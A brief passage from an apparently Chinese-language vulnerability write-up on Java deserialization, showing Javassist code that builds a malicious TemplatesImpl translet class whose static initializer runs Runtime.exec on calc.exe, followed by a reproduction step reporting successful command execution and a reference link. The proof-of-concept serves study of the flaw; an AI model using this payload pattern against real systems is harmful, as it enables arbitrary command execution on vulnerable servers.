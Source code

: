 ```
ClassPool pool = ClassPool.getDefault();
CtClass STU = pool.makeClass("T0WN");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
STU.makeClassInitializer().insertBefore(cmd);
STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
STU.writeFile();
byte[] bytes = STU.toBytecode();
byte[][] targetbytes = new byte[][]{bytes};
```

利用Javassist编写恶意类,然后在TemplatesImpl中加载恶意类

接下来实例化恶意类

![image-20220120221410161](images/10.png)

# 漏洞复现

![image-20220120221431349](images/11.png)

命令执行成功





参考链接

https://www.freebuf.com/vuls/252643.html